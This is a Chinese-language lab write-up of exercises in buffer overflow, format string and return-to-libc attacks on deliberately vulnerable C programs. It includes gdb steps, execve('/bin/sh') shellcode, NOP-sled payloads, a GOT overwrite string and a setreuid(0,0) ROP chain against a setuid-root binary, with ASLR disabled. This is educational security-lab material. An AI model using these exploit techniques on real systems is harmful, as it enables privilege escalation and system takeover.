








# 漏洞分析练习题

代码仓库

## 一缓冲区溢出

参考文章：[Coen Goedegebure's Blog](https://www.coengoedegebure.com/):[buffer-overflow-attacks-explained](https://www.coengoedegebure.com/buffer-overflow-attacks-explained/)

`https://www.coengoedegebure.com/buffer-overflow-attacks-explained/`

### 基础知识

##### 内存里面

当一个程序由操作系统 (OS) 运行时，可执行文件将以一种非常特定的方式保存在内存中，这种方式在不同进程之间是一致的。操作系统将有效地调用代码的 main 方法作为函数，然后启动程序其余部分的流程。


内存的顶部是***kernel***区域，其中包含传递给程序的命令行参数和环境变量。

内存的底部区域称为***text*** ，包含程序的实际代码、编译的机器指令。这是一个只读区域，因为不应允许更改这些区域。

文本上方是***data***，其中存储了未初始化和已初始化的变量。

在数据区之上，是***heap***。这是分配大对象（如图像、文件等）的一大块内存区域。

内核下面是***stack***。它保存了每个函数的局部变量。当一个新函数被调用时，它们被压入堆栈的末尾（有关更多信息，请参见[堆栈](https://en.wikipedia.org/wiki/Stack_(abstract_data_type))抽象数据类型）。

请注意，当应用程序需要更多内存并且堆栈向下增长（从高内存到低内存）时，堆会增长（从低内存到高内存）。

这个堆栈区域是魔法发生的地方。

##### 源代码分析

```c
#include <stdio.h>
#include <stdlib.h>
extern char **environ;
vul(int argc, char *argv[])
{
        char buffer[40];
        int i;
        if(argc < 2){ //检查输入的参数个数是否超过两个
                printf("argv error\n");
                exit(0);
        }

        for(i=0; environ[i]; i++) // 清空环境变量
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf') // 检查第二个参数的48号位置是否为 \xbf
        {
                printf("stack is still your friend.\n");
                exit(0);
        }
    /* 缓冲区溢出的核心 strcpy函数直接把argv[1]中的内容copy到buffer中。
    这样只要argv[1]的长度大于40，就会造成buffer的溢出，使程序运行出错。*/
        strcpy(buffer, argv[1]); 
        printf("%s\n", buffer);
        // buffer hunter 
        memset(buffer, 0, 40);
}
main(int argc, char *argv[])
{
	vul(argc,argv);
}
```

在运行时，作为程序参数的`argc`和`argv`参数的内容将保存在***kernel***区域中。

`main`方法是程序的入口点，它做的第一件事就是调用`vul`函数，将第一个命令行参数传递给它（即`argv[1]`）。

调用`vul`-function 时，会将`argv[1]`值压入堆栈（作为 的`argc,argv`-parameter `vul`）

然后，函数应该知道函数退出时返回到哪里，所以下一条指令的地址被压入堆栈作为***返回地址***。在此代码示例中，下一条指令是之后 `vul(argc,argv);`的指令，它是最后那里的内存地址。

然后将 EBP（或扩展基指针）压入堆栈。该指针用于引用参数和局部变量。为了保持这个解释简单，我们不会对此进行进一步的详细说明。

然后，在堆栈中分配一个 40字节长的**缓冲区**，然后调用复制函数 ( `strcpy`) 将 -`argc,argv`参数复制到缓冲区中。

在此之后，缓冲区的内容与提示消息一起输出。

现在将按如下所示构建堆栈，由名称参数、返回地址、EBP 和 100 字节缓冲区组成：


#### 准备工作

首先关闭地址随机化

   ```bash
   sudo sysctl -w kernel.randomize_va_space=0
   ```

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
[sudo] password for seed: dees
kernel.randomize_va_space = 0
```

由于有清空环境变量的步骤`memset(environ[i], 0, strlen(environ[i]));`，导致无法使用环境变量，只能直接导入shellcode。

### 破解密码

##### 找到缓冲区首地址与函数返回地址之间的距离

即buffer首地址与vul返回地址之间距离

1. 找到vul函数的返回地址，即call vul之后的下一条地址`0x080485dd`

    ```bash
    gdb q1
    diasaa main
    ```


2. 找到strcpy函数的返回地址`0x0804859b`

    命令***disas vul***将显示该方法的汇编代码`vul`：
    
    ```bash
    disass vul
    ```



3. 在strcpy函数的返回地址处设置断点，使程序运行至此停止

    ```bash
    b *0x0804859b
    ```


##### 缓冲区溢出

堆栈从高内存地址向下增长到低内存地址。但是，缓冲区本身是从较低的内存地址到较高的内存地址填充的。这意味着，如果我们传递一个长度超过 40 个字符的名称，它将开始覆盖堆栈中较低（而在内存中较高）的基指针。


让我们看看当我们`buf`使用 48 个字符长的名称参数执行程序时会发生什么。这48 个字符将由`40 * “A”`、`“BBBB”` 、`“CCC”  + '\xbf'`,组成。稍后，在检查程序的内存时，这种字母的区别将更容易识别被覆盖的内存段。我们期望前 40个 A 填充缓冲区，B 覆盖 EBP，C ('\xbf')覆盖返回地址。

为了生成字符串，将使用以下 python 脚本：

```bash
run $(python -c "print 'A' * 40 + 'B' * 4 + 'C' * 3 + '\xbf' ")
```

当这个字符串被传递给程序时，它将产生以下结果：



##### 堆栈故障

从示意图上看，堆栈现在看起来像这样：




4. 查看堆栈情况

   ```bash
   x/50xw $esp
   ```

   

buffer数组首地址为`0xbfffeed4`，与vul函数返回地址`0x080485dd`相距 4 X 14 = 56个字节。

#### 构建攻击字符串

##### shellcode

shellcode 是一小段代码，用作利用软件漏洞的有效负载。它被称为“shellcode”，因为它通常启动一个命令 shell，攻击者可以从中控制受感染的机器，但任何执行类似任务的代码都可以称为 shellcode。

```assembly
xor     eax, eax    ; Clearing eax register
push    eax         ; Pushing NULL bytes
push    0x68732f2f  ; Pushing //sh
push    0x6e69622f  ; Pushing /bin
mov     ebx, esp    ; ebx now has address of /bin//sh
push    eax         ; Pushing NULL byte
mov     edx, esp    ; edx now has address of NULL byte
push    ebx         ; Pushing address of /bin//sh
mov     ecx, esp    ; ecx now has address of address
                    ; of /bin//sh byte
mov     al, 11      ; syscall number of execve is 11
int     0x80        ; Make the system call
```

转为机器码

```shell
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

我们的目标是让错误的程序`buf`执行 shellcode。猜测注入代码的准确入口地址，即使猜错一个字节都会导致攻击失败。为了做到这一点，我们将 shellcode 作为命令行参数传递，因此它最终会在缓冲区中结束。然后我们覆盖返回地址（前面例子中的 C + ’\xbf‘），所以它会指向缓冲区中某处的内存地址。这将使程序跳转到 shellcode 并执行该代码而不是常规程序。

在程序执行期间内存可能会移动一点，所以我们不知道 shellcode 将从缓冲区中的哪个地址开始。NOP-sled 是解决这个问题的一种方法。

##### NOP-sled

NOP-sled 是一系列 NOP（无操作）指令，旨在将 CPU 的指令执行流程“*滑动”到下一个内存地址。*返回地址在 NOP-sled 中的任何位置，它都会沿着缓冲区滑动，直到到达 shellcode 的开头。每个 CPU的 NOP 值可能不同，但对于我们针对的操作系统和 CPU，NOP 值为`\x90`.


对于 NOP-sled，shellcode 在缓冲区中的哪个位置可以让返回地址命中它并不重要。我们所知道的是它将位于缓冲区中的某个位置。

有效载荷：`[ NOP SLED ][ SHELLCODE ]`

#### 固定有效载荷

buffer数组首地址为`0xbfffeed4`，使用它，我们现在知道包含有效负载的运行时内存地址。这意味着我们可以在 NOP-sled 中的某处选择一个地址作为返回地址指向。在这种情况下，我选择`0xbffffd6c`了上图中蓝色框标记的内存位置。

从内存的角度来看，有效负载将从堆栈顶部向底部（从低到高的内存）插入缓冲区中。返回地址将以相反的顺序读取，从堆栈底部向顶部：


将shellcode放在距离buffer首地址1060个字节的位置，中间用nop填充，将shellcode的入口地址设置在中间nop的地址，其地址为：

`0xbfffeed4 + 56 + 4 + （1060-60）/ 2 = 0xbfff f104`

```bash
q1 $(python -c "print '\xbf'*56+'\x04\xf1\xff\xbf'+'\x90'*1000+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'")
```


也可以使用另一个shellcode：

```bash
q1 $(python -c "print '\xbf'*56+'\x04\xf1\xff\xbf'+'\x90'*1000+'\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

这样也可以获得root权限



## 二格式化字符串


```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <err.h>

unsigned short secret = 0x234;

void handle_fail(char *buf) {
  char msg[100];
  snprintf(msg, sizeof(msg), "Invalid Passwd! %s\n", buf);
  printf(msg);
}

int main(int argc, char *argv[])
{
  
  int tmp = secret;

  char buf[100];
  printf("Password:");
  strncpy(buf,argv[1],99);

  if (!strcmp(buf, "63582")) {
    printf("Pass OK :)\n");
  } else {
    handle_fail(buf);
  }

  if (tmp != secret) {
    puts("Secret modified!\n");
    exit(1);
  }
  
  return 0;
}
```

#### 准备工作

1. 导入shellcode，装入为名为EGG的环境变量中。

```bash
export EGG=$(python -c "print '\x90'*1000 + '\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

2. 查找出EGG的位置，显示地址程序test.c如下，getenv函数可获取某环境变量的地址

    ```c
    #include <stdio.h>
    #include <stdlib.h>
    int main()
    {
    	printf("EGG address: %p\n",getenv("EGG"));
    	return 0;
    }
    ```

    ```bash
    gcc test.c -o a2
    a2
    ```


至此将shellcode导入并获得了地址。`0xbffff268`

#### 位置查找

1. 首先找到secret的地址：

```c
gdb q2
disass main
```



```
x 0x804a024
```


secret地址：`0x804a024`

2. 使用多个x%，令其打印出较多数据

```bash
q2 aaaa.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
```


可见，输入的数据在第11个%x。

3. objdump -R q2  查看exit函数地址

```bash
objdump -R q2
```


exit函数地址为：`0x0804a00c`

#### 构造攻击字符串

把exit函数的地址`0x0804a00c`改为shellcode`0xbffff292`的地址，并把secret的值改掉（只要不与0x234相同即可）。

%s之前16个字符的“Invalid Passwd! ”也需要减掉，

0xbfff（shellcode地址高字节）-12（三个地址）-16（字符）=49123

0xf268（shellcode地址低字节-0xbfff=12,905

exit函数低地址：`\x0c\xa0\x04\x08 `，exit函数高地址：`\x0e\xa0\x04\x08`

```bash
q2 $(printf "\x0e\xa0\x04\x08\x0c\xa0\x04\x08\x24\xa0\04\x08")%.49123x%11\$hn%.12905x%12\$hn%x%13\$n
```


## 三return-to-libc

源代码

```c
/* sudo sysctl -w kernel.randomize_va_space=0 then ... */
/*User Return-to-libc to execute 
system("/usr/bin/id");
setreuid(0,0);
system("id");
execl("/bin/sh","sh",NULL);
*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int bof(FILE *badfile)
{
     long i=0x23456789;

    char buffer[97];
    /* The following statement has a buffer overflow problem */
    fread(buffer, sizeof(char), 430, badfile);
    if(i != 0x23456789) {
        printf(" Warnning: Buffer Overflow !!! \n");
     kill(0,11);
    }


    return 1;
}

int main(int argc, char **argv)
{
    FILE *badfile;
    badfile = fopen("badfile", "r");
    bof(badfile);
    printf("Returned Properly\n");
    fclose(badfile);
    return 1;
}

```

#### 准备工作

首先关闭地址随机化

   ```bash
   sudo sysctl -w kernel.randomize_va_space=0
   ```

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
[sudo] password for seed: dees
kernel.randomize_va_space = 0
```

创建文件badfile并写入四个‘a’用以标记数组首地址：


将程序变为root所有的Set-UID程序

```bash
sudo chown root q3
sudo chmod 4755 q3
```

#### 发起攻击——找地址

##### bof地址

gdb调试q3：

```bash
gdb q3
disass main
```



bof返回地址：`0x08048545`

```bash
disass bof
```


bof结束地址为：``0x08048514`，

设置断点

```bash
b*0x08048514

run
```

此时发现words (four bytes)模式不易观察，改用byte模式



```bash
x/200b $esp
```


buffer数组首地址与bof函数返回地址相差113个字节，与变量i相差97个字节。

| aaaa | 93b  |  i   | 12b  | return bof |
| :--: | :--: | :--: | :--: | :--------: |

打印需要用到的各个函数的地址：

##### 系统函数地址

```bash
p system
p setreuid
p execl

```


`system `:`0xb7e5f430`
`setreuid `:`0xb7f07870 `
`execl `:`0xb7ed85f0 `

##### 环境变量地址

编写打印环境变量地址的程序：

需要四个环境变量 ：system的`"/usr/bin/id"、"id"`。execl的`"/bin/sh"、"sh"`。

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
	char *shell=(char*)getenv("MYUID");
	if(shell)
	{
		printf("Value: %s\n",shell);
		printf("Address: %x\n",(unsigned int)shell);
	}
	char *shell2=(char*)getenv("MYID");
	if(shell2)
	{
		printf("Value: %s\n",shell2);
		printf("Address: %x\n",(unsigned int)shell2);
	}
	char *shell3=(char*)getenv("MYBSH");
	if(shell3)
	{
		printf("Value: %s\n",shell3);
		printf("Address: %x\n",(unsigned int)shell3);
	}
	char *shell4=(char*)getenv("MYSH");
	if(shell4)
	{
		printf("Value: %s\n",shell4);
		printf("Address: %x\n",(unsigned int)shell4);
	}
	return 1;
}
```

将函数各参数导入，并打印出地址

```bash
export MYUID="/usr/bin/id"
export MYID="id"
export MYBSH="/bin/sh"
export MYSH="sh"
gcc rtladdr.c -o ra
ra
```



得到各变量地址：

> /usr/bin/id: bffffe12
> id: bffffceb
> /bin/sh: bfffff66
> sh: bffffe7c

##### 载体位置

寻找pop-ret，由于有三个参数，需要找到能承载三个的地方


pop-pop-pop-ret：0x80485cd
pop-pop-ret：0x80485ce
pop-ret:0x80485cf

#### 发起攻击——构建输入

编写输入程序：rtlatt.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[200];
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
	
	// system("/usr/bin/id");
	*(long *) &buf[97] = 0x23456789;//i
	*(long *) &buf[113] = 0xb7e5f430;//system
	*(long *) &buf[117] = 0x80485cf ;// pop
	*(long *) &buf[121] = 0xbffffda0 ;// /usr/bin/id
	
	//setreuid(0,0);
	*(long *) &buf[125] = 0xb7f07870;// Setreuid
	*(long *) &buf[129] = 0x80485ce ;// pop-pop-ret
	*(long *) &buf[133] = 0x00000000 ;// 0
	*(long *) &buf[137] = 00000000;// 0
	
	//system("id");
	*(long *) &buf[141] = 0xb7e5f430; //system
	*(long *) &buf[145] = 0x80485cf ;// pop
	*(long *) &buf[149] =0xbffffcf9 ;// id

	//execl("/bin/sh","sh",NULL);
	*(long *) &buf[153] =0xb7ed85f0 ;// excel
	*(long *) &buf[157] =0x80485cd;// pop- pop- pop-ret
	*(long *) &buf[161] =0xbffff631;// /bin/sh
	*(long *) &buf[165] =0xbffffe8a;// sh
	*(long *) &buf[169] = 0x00000000 ;// 0

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
```

#### 发起攻击——决战

```c
gcc rtlatt.c -o rt
rt
q3
```


